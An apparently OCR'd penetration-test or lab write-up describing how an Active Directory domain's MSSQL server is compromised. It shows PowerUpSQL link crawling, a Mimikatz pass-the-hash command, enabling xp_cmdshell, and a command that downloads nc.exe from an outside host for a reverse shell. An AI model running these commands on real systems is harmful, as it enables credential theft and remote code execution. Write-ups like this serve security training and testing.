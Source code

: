 ## Step to compromise
Enumerating the domain, we can see there is MSSQL instance running and a serviceprincipalname set 
for devsqladmin, we successfully kerberoasted the user, but failed to crack the hash. Running 
PowerUpSQL2 will allow us to enumerate the MSSQL Instance further. Running the following command 
will give us information about the SQL Instance:
```
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```
Still using PowerUpSQL we look to see if there are any database links which will allow us to execute 
stored procedures.
```
Get-SQLServerLink -Instance [instance] -Verbose
Get-SQLServerLinkCrawl -Instance [instance] -Verbose
```
We can see in the verbose output that although we successfully connected to the Instance as ap 
the IsSysAdmin:0 means that we will not be allowed to enable xp_cmdshell. Luckily during enumeration 
of our USER machine, we acquired the NTLM hash of reportuser. Using Over pass the hash method we 
can get a powershell prompt in the context of reportuser.
```
Invoke-Mimikatz -Command ‘”sekurlsa::pth /user:reportuser 
/domain:[domain] /ntlm:[hash] 
/run:powershell.exe”’
```
We re-run our PowerUpSQL commands, and can see that reportuser has IsSysAdmin:1, allowing us to 
enable xp_cmdshell and successfully get a reverse shell
```
Get-SQLServerLinkCrawl -Instance [instance] -verbose
```
Now we can try running Queries to get code execution, we test with running whoami and can see that 
we are running as user\admin.
```
Get-SQLServerLinkCrawl -Instance [instance] -Query 
‘exec master..xp_cmdshell “whoami”’
```
Now let’s try to upload nc.exe to the C:\Windows\Temp folder and execute it to give us a reverse shell 
as devsqladmin
```
Get-SQLServerLinkCrawl -Instance [instance] -Query 
‘exec master..xp_cmdshell “powershell iex (New-Object 
Net.WebClient).DownloadFile(‘’http://[ip]/nc.exe’’,’’C:\Windows\Temp\
nc.exe’’)”’
```
